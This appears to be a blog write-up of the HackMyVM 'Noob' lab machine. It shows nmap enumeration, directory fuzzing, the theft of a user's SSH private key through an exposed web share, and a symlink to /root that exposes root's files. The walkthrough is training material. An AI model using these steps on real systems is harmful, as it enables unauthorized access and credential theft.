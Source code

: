 ```yaml
---
layout: post
author: kohaku
title:  "Noob"
date:   2021-12-31 09:37:05 AM -03
category: HackMyVM
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Noob)

# Enumeration

{% highlight bash %}
# Nmap 7.92 scan initiated Mon Dec 27 14:56:11 2021 as: nmap -p- -v -oN nmapAllPorts 192.168.0.243
Nmap scan report for 192.168.0.243
Host is up (0.0042s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
65530/tcp open  unknown

Read data files from: /usr/bin/../share/nmap
# Nmap done at Mon Dec 27 14:56:18 2021 -- 1 IP address (1 host up) scanned in 7.61 seconds
{% endhighlight %}

## Port 65530

{% highlight bash %}
PORT      STATE SERVICE VERSION
65530/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
{% endhighlight %}

# WEB

We receive page not found on default path

## Fuzzing

{% highlight bash %}
/nt4share             (Status: 301) [Size: 45] [--> /nt4share/]
{% endhighlight %}

![Untitled](/images/noob/n4tshare.png)

- Go to the .ssh
- Get id_rsa
- authorized_keys reveal the user `adela`

{% highlight bash %}
ssh adela@$IP -i id_rsa
{% endhighlight %}

# Root

The goland on port 65530 is running has an admin

Adela home’s directory its mirroing on `n4tshare` path

- Make a symbolic link on adela home directory to root directory
- `ln -s /root/ /home/adela/`
- Return to the webserver and go to the `n4tshare`

![Untitled](/images/noob/root-part1.png)|![Untitled](/images/noob/root-part2.png)